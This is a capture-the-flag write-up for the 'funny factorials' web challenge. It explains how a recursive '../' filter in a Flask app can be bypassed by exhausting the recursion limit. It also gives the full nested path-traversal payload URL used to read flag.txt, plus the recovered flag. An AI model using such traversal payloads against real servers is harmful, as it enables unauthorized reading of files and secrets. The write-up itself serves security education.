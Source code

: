 # funny factorials
> I made a factorials app! It's so fancy and shmancy. However factorials don't seem to properly compute at big numbers! Can you help me fix it?

We are given https://funny-factorials.amt.rs/, a Dockerfile, and a python code `app.py`. 

From the Dockerfile:
```
FROM python:3.10-slim-bullseye

RUN pip install --no-cache-dir Flask gunicorn

COPY flag.txt /

COPY app/* /app/

USER 1000

CMD ["gunicorn", "-w", "1", "-b", "0.0.0.0:8080", "wsgi:app"]
```

From this we know that the `flag.txt` is one directory down.

We also note that the python file has a recursion limit:
```python
if __name__ == '__main__':
    sys.setrecursionlimit(100)
    app.run(debug=True)
```

And has a direct `open()` function to read files:
```python
@app.route('/')
def index():
    safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))
    print(safe_theme)
    f = open(safe_theme, "r")
    theme = f.read()
    f.close()
    return render_template('index.html', css=theme)
```

Now let's try something, if we go to [`view-source:https://funny-factorials.amt.rs/?theme=app.py`](view-source:https://funny-factorials.amt.rs/?theme=app.py), we can see the entirety of app.py in the `<style>` tags!

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Factorial Calculator</title>
    <!-- inline styles passed into the template -->
    <style>
        from flask import Flask, render_template, request
import sys

app = Flask(__name__)

def factorial(n):
    if n == 0:
        return 1
    else:
        try:
            return n * factorial(n - 1)
        except RecursionError:
            return 1
(the rest of the code has been removed to not occupy too much space but you get the idea)
    </style>
  </head>
  <body>
    <h1>Factorial Calculator</h1>
    <form method="POST">
      <label for="number">Enter a number:</label>
      <input type="text" name="number" id="number" />
      <input type="submit" value="Calculate" />
    </form>
    <p>Available themes:</p>
        <a href="?theme=themes/theme1.css">cool</a>
        <a href="?theme=themes/theme2.css">warm</a>
    <ul></ul>
  </body>
</html>
```

So let's try [`view-source:https://funny-factorials.amt.rs/?theme=../flag.txt`](view-source:https://funny-factorials.amt.rs/?theme=../flag.txt):

```html
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

hmm, it seems like there is a method that removes `../`:
```python
def filter_path(path):
    print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        return path
```

So if we do something like `......///`, we can get it to slowly use up its recursion limit like so: 
```
....(../)// -> ..(../)/ -> ../
```

So I tried increasingly many nested `../` (I was too lazy to write a script so I manually binary searched from 50-100) until I reached this: [`view-source:https://funny-factorials.amt.rs/?theme=................................................................................................................................................................../////////////////////////////////////////////////////////////////////////////////flag.txt`](view-source:https://funny-factorials.amt.rs/?theme=................................................................................................................................................................../////////////////////////////////////////////////////////////////////////////////flag.txt)
which gave us the flag: `amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}`